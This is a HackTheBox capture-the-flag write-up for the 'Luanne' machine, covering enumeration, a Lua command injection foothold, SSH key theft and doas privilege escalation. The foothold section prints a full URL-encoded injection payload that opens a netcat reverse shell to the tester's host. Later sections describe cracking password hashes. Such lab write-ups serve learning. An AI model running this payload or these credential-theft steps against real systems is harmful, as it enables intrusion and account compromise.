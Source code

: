 ![](assets/images/banner.png)



<img src="assets/images/htb.png" style="margin-left: 20px; zoom: 60%;" align=left />    	<font size="10">Luanne</font>

​		17<sup>th</sup> Januray 2021

​		Machine Author(s): polarbearer

​		

 



### Description:

Luanne is an easy-level machine active on HackTheBox. 

### Difficulty:

`easy`

### Flags:

User: `Find it yourself and see how it feels`

Root: `Find it yourself and see how it feels`

# Enumeration


1) So first of all I perfomed an nmap scan on the machine which gave me the following results.

![](assets/images/Luanne_nmap.png)


2) We can see that its got an nginx server on port 80 which requires authentication (you can make out from the status code 401).

3) Robots.txt tells us we have a directory named weather. When we go to the route http://10.10.10.218/weather, we get a 404 not found error.

![](assets/images/Luanne_weather.png)


4) Hereafter I thought of performing a directory scan via gobuster to check if there are any other directories present. I found this...

![](assets/images/Luanne1.png)

5) After I went over to /forecast, I found a JSON message which said the following...

![](assets/images/Luanne_forecast.png)

city=list?..I guess it must be a parameter that is being passed to the URL

what if we pass a reverse shell instead of list to the variable city?...worth a shot..


# Foothold

So I constructed a reverse shell payload and then url-encoded it.

![](assets/images/Luanne_shell.png)


![](assets/images/Luanne_urlencode.png)



?city=10.10.10.218%2Fweather%2Fforecast%3Fcity%3D')%3Bos.execute("rm %2Ftmp%2Ff%3Bmkfifo %2Ftmp%2Ff%3Bcat %2Ftmp%2Ff|%2Fbin%2Fsh -i 2>%261|nc 10.10.14.136 4242 >%2Ftmp%2Ff")--

and i passed this to the city variable in the URL and opened a netcat listener on port 4242 on my local machine.

I got a shell as httpd thereafter. And then I checked what files were present in the current directory, I found a .htpasswd file which were the credentials needed to access the web service on port 80.

![](assets/images/Luanne_webapiuser.png)

I used John to crack the hash with rockyou as the dictionary and found the password. 

![](assets/images/Luanne2.png)

Thereafter I accessed the web service served on port 80 by inputting the credentials found.
 
![](assets/images/Luanne_web80.png)

There I saw some usual things,which I already have tried once before.

# Lateral Movement
I then remembered, that when I got the authentication error, I had also got a redirection link which was running on localhost.
I checked if the process was actually running on the server or no using the netstat -aan command.

![](assets/images/Luanne_netstat.png)


After a little enumeration (in the /home directory) I found out that there is a user named r.michaels, so I thought of CURLing the ssh keys of r.michaels using the webapi_user credentials obtained previously.
 
 ![](assets/images/Luanne3.png)
 
Boom! I got the id_rsa keys of r.michaels user. I saved it with a 600 permission (search file permissions on google for further details) using the chmod command on my local machine. 
 
Post which, I was ready to login into the user..

And we've logged in as r.michaels

![](assets/images/LuanneUSERFLAG.png)

Wuhuu...you got the user flag now!
 

# Privilege Escalation

Moving forward to root, there is a backup file which is encrypted so let’s decrypt it and then extract it.

![](assets/images/LuanneZipEnc.png)


![](assets/images/LuanneHash2.png)

We got another hash..hmm..resorting to the previous ways (like we used john in the previous case) we'll extract the hash as shown.

![](assets/images/Luanne4.png)

With the new found password, I tried use sudo su, but it didn’t work.

It was a easy machine so I thought this may be the password of root but the machine did not have sudo.

![](assets/images/LuanneSudo.png)

But I searched for the alternative of sudo in openBSd and got to know that we can use doas. And it worked...
![](assets/images/LuanneRoot.png)

